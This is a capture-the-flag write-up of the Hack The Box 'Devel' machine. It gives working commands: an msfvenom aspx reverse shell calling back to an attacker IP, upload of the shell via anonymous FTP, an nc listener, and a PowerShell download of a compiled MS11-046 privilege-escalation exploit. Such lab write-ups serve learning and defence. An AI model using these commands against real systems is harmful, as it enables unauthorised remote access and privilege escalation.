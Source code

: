 ```yaml
---
title: "Devel"
date: 2023-07-03T17:35:59+02:00
tags: ["ftp","windows","web","privesc"]
categories: ["hackthebox"]
author: "Ro Hackss"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "This room is a windows room with a http service which runs iis7 web server which content is able at a misconfigured ftp service."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Devel
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Devel

![Untitled](/HTB/devel-icon.png)

## Tools Used

- Nmap
- FTP
- Msfvenom
- Searchsploit

## Port Scanning

```bash
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan results shows two open ports, the port 80 has an iis7 web server and the port 21 a ftp service with the content of the website, one folder named aspnet_client gives us a clue of what framework is using the website.

## Enumeration

We can try a reverse shell since it allows us to log in the ftp server anonymously.

First we are going to list the formats we can use with:

```bash
msfvenom --list formats
```

A format specially caught my attention and it’s the aspx format which is used by the [asp.net](http://asp.net) 

We can build the reverse shell with:

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.20 LPORT=4444 -o reverse-shell.aspx
```

## Exploiting

Let’s exploit the machine

First we are going to connect with the ftp client anonymously with:

```bash
ftp 10.10.10.5 21
```

Once there, let’s send the reverse shell with mput command:

```bash
mput ~/Documents/exploits/reverse-shell.aspx
```

Only left a listener

```bash
nc -lv 4444
```

Now let’s run the file in the browser http://10.10.10.5/reverse-shell.aspx.

## Gaining an Initial Foothold

We are in now. Let’s see if we are root users or not.

![Untitled](/HTB/devel-1.png)

![Untitled](/HTB/devel-2.png)

If we try to enter in the users folder seems that we don’t have permissions.

![Untitled](/HTB/devel-3.png)

## Escalating Privilege

We can list the system information to see if we can escalate privileges.

![Untitled](/HTB/devel-4.png)

Our version is the Windows 7 build 7600 x86, it’s fairly old and no hotfix(s) are applied.

In searchsploit seems doesnt have any result.

![Untitled](/HTB/devel-5.png)

If we google it we can see a [exploit](https://www.exploit-db.com/exploits/40564) that fits well with what we want to do.

![Untitled](/HTB/devel-6.png)

![Untitled](/HTB/devel-7.png)

The exploit CVE-**[2011-1249](https://nvd.nist.gov/vuln/detail/CVE-2011-1249)** help us to escalate privileges.

Let’s download the exploit with searchsploit 

```bash
searchsploit -m "40564"
```

If we take a look to the documentation of the exploit we can see that the exploit need to be compiled with `mingw32` first.

```bash
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

Now let’s create a http server with python to send this .exe.

```bash
python -m http.server 80
```

The remote machine doesn’t seems to have netcat but has powershell we can download the file with:

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:80/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

Once we have the exploit only left to run it, we can find it in c:\Users\Public\Downloads

![Untitled](/HTB/devel-9.png)

![Untitled](/HTB/devel-10.png)

We have gained root access.

## Flag(s)

Let’s navigate to the user and root Desktops where we can find the flags.

**User Flag**

![Untitled](/HTB/devel-11.png)

**Root Flag**

![Untitled](/HTB/devel-12.png)

## Lessons Learned

- What insights did you gain from the room?
    
    We learned to put a reverse shell via the ftp service as well as escalate privilege with a exploit that take advantage of the afd.sys file.
    
- Were there any novel tools or techniques employed?
    
    We don’t employed any new tools but he know now a new format of reverse shell (aspx) that is employed by Microsoft [asp.net](http://asp.net).

**Thank you for reading, and happy hacking! 😄**
